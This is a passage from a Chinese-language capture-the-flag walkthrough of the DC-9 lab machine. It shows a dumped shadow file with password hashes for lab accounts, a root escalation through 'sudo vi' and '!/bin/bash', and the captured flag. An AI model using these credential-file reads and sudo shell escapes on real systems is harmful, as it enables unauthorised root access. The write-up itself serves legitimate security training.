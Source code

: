    julied:$6$32/2fdkDb73B.Pbu$ZY/FnFR9GHSLfdhOmqYc6Qrt0MrwllJ3VjZDoyc8386oYyuYRUIPDvz3GOp36KzlnzfKObcQKbA44OFRWVaTH/:18259:0:99999:7:::
    fredf:$6$CLKIMQJIUehJJqbo$8afEl6ipZRF1LKIu8Qw9wbufGgFze6/xrBDdTr7oS6bTibipCenHJ/m/lzNj36i8pIfrsd2RVoEdA5jwxhnMZ1:18259:0:99999:7:::
    barneyr:$6$ozASzz3uY5pZ01N0$mXJ2Bh9t5vgmMpnTl6CXtvCRz5zYBr4bwYLE/0JtxPHAeFmlxJibsgQsJRemYYPbzVuFRIu9KD9CD3MFl5CJ6/:18259:0:99999:7:::
    tomc:$6$96XehDk5ozd3Yx1N$ZmrnsxS6rH1KpyMN4E0YhRPKfcP/ZacdFl7eHgTVJhFwqfxgaDGH7aLYTONEi2XjXWV.TvbGL7nU3ihiHf30Y0:18259:0:99999:7:::
    jerrym:$6$wlCURlxOqBWhare6$zq3RvAT4tdx12GoMP0BLK/TxLausSspKPCHWIQSuBVMXm8GN5Wi13FsIkvLpML93Ny8G6J/q3JEr41Pder6Q/.:18259:0:99999:7:::
    wilmaf:$6$2hEqLZyozDA001uz$LFM49N1ZO1bN1KbMuzb9jJCIonwEPNBxEvEFmIXPgAL1KvKAxgJFH494CWHUyzsizvCz780z6r1OeufCgxHUm0:18259:0:99999:7:::
    bettyr:$6$cZjlc4EB3VXiOGoY$fcW9ne5x2wQhYdnUukOcx0umnG/FSzuIGLZTRPo/VlPDWai/oM5FVaffLqSSim5xgwJ3JBerIdW6BXZWTc6gd.:18259:0:99999:7:::
    chandlerb:$6$cVQ1y2nQYgwpMKvT$3rRdWV/3d0uasARPBvZlcAtrWQZdjJsndgSIfD27yf0jGTp6hxgXrI0v5CayLtuallgbCg44gLjnbCN8NlFHk0:18259:0:99999:7:::
    joeyt:$6$FfsFOF2eFLLssCIx$Xw2h6l2tkSye/9IoYbK0a6VeGd8771UJWyeYw1m2X6Xcgc1iE0UYaZf.ySUlD8tIsS6FRxyAxEZyYspbAdvIf/:18259:0:99999:7:::
    rachelg:$6$yDoxHglucM5kjbyz$JL0k6riILYc2fDVu.S25TrVAWDXB5yjtdrhHtQkCp25oZnMTGq6dj8LJX8yGutyeNDd8mjyQT8UDtN9C6CKvA.:18259:0:99999:7:::
    rossg:$6$m7qudrh2e.QzNHjz$W/qreraYyvBJICSt12Oha2pqvjRpPcyU1nhMpHKhHTZ/X3sRE7nvkVtHh0oYrKgjYyznWn6XtDShoN6tRmeYh1:18259:0:99999:7:::
    monicag:$6$OKThUPaRpzMonEJT$VJOMjAKPip3c6MSteIsrtu/x01VwvK6CfUYmY24RU5X.jYBJYbGzCQPFBpfzXc32D2jItQL2eTYtTxrrXh9pT.:18259:0:99999:7:::
    phoebeb:$6$hv8tIcEfkNLWF0UD$JNOVj9XT0kOh/omUlPOzL8kbkNyqmcGSRuAwK97kHYEfzvP4MJnWiGTIbGuYW5wCGOzsJ2MN8e5fO5jh6f3GX/:18259:0:99999:7:::
    scoots:$6$PxiTl9DHLbYR.R9b$K6judJrN68gASxg9mOLsL./YVhs4Gt/QTtI1Qx5Wj2Fc2QpgmDZtMhfwxNMs2nUSywOdRaPobhtvb2QT.24OK.:18259:0:99999:7:::
    janitor:$6$bQhC0fZ9g9313Aat$aZ0GecSMTi1qUGqSF6eAdGu2pDXRg1Zu8JzLyyhvSAwh8MnLzv3XPnu6Vw9OruPsgAGgA2dCYdOuk9T4hgDZ6/:18259:0:99999:7:::
    janitor2:$6$HkvFAeOwjGjr6jDj$CUt0HJpmATAcPYxVjsxsYclUWFgfaGucL.c/WiavCt.op9UjqkM2yZdoDpyFW1rZbiSHCQ2MGIy0kBhcPPnhn.:18259:0:99999:7:::
    ```
    
    可以不用密码使用`sudo cat` 表示提权成功
    
9. `sudo vi`提权
    
    进入后在末尾模式下输入`!/bin/bash`
    
    ```python
    fredf@dc-9:/tmp$ sudo vi
    
    root@dc-9:/tmp# 
    ```
    
    提权成功！
    
10. 读取`flag`文件
    
    ```python
    root@dc-9:~# cat theflag.txt 
    
    ███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
    ████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
    ██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
    ██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
    ██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
    ╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                                 